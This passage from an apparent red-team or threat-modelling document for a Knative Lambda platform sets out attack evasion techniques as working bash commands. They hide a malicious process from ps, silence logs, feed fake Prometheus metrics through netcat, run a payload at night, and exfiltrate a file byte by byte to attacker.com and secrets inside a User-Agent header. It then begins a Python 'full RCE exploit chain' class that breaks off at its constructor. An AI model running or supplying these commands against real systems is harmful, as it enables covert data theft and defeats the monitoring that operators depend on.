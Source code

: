 
### 8. Advanced Evasion Techniques (P1)

#### Hiding from Detection
```bash
# ATTACK: Evade monitoring and detection

# Technique 1: Process hiding
# Run malicious process but hide from 'ps'
mount -o bind /dev/null /proc/$(pidof malicious)/cmdline

# Technique 2: Log evasion
# Don't write to stdout/stderr, they go to logs
exec 1>/dev/null 2>/dev/null

# Technique 3: Metric poisoning
# If Prometheus scrapes us, return fake metrics
while true; do
  echo 'http_requests_total{status="200"} 1000' | nc -l -p 9090
done

# Technique 4: Timing evasion
# Sleep during business hours, attack at night
while true; do
  hour=$(date +%H)
  if [ $hour -ge 22 ] || [ $hour -le 6 ]; then
    # Attack
    ./payload.sh
  fi
  sleep 3600
done

# Technique 5: Low and slow
# Exfiltrate 1 byte per minute (below rate limit detection)
for byte in $(xxd -p sensitive.data); do
  curl http://attacker.com/$byte
  sleep 60
done

# Technique 6: Legitimate-looking traffic
# Exfiltrate via User-Agent header (looks like normal browser traffic)
data=$(cat secrets.txt | base64 -w0)
curl -A "Mozilla/5.0 $data Firefox/120.0" http://google.com
```

---

## 🎯 Exploit Development

### Custom Exploit: CloudEvent RCE Chain
```python
#!/usr/bin/env python3
"""
Full RCE exploit chain for Knative Lambda
Demonstrates: Input validation bypass -> Code injection -> Container escape -> Cluster admin
"""

import requests
import base64
import json

class KnativeLambdaExploit:
    def __init__(self, target):
```